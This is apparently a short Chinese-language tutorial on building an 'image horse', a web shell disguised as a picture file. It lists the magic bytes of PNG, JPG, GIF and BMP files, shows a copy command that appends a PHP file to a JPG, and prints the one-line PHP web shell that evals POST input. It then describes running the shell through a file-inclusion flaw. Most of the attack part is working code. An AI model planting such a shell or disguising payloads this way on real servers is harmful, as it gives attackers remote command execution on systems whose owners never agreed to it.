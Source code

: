 ```
1.Png图片文件包括8字节：89 50 4E 47 0D 0A 1A 0A。即为 .PNG。
2.Jpg图片文件包括2字节：FF D8。
3.Gif图片文件包括6字节：47 49 46 38 39|37 61 。即为 GIF89(7)a。
4.Bmp图片文件包括2字节：42 4D。即为 BM
```

### 制作图片马

1. ```php
   copy update.jpg /b + webshell.php /a webshell.jpg
   ```

2. ![图片马的编写](./图片马的编写.png)

PHP一句话的编写

```php
<?php @eval($_POST['cmd']);?>
```

利用文件包含漏洞去执行相应的图片马，因为上面写的是`$_POST`的方式执行，所以在hackbar中，也要使用post方式进行命令执行。

![执行图片马](./执行图片马.png)
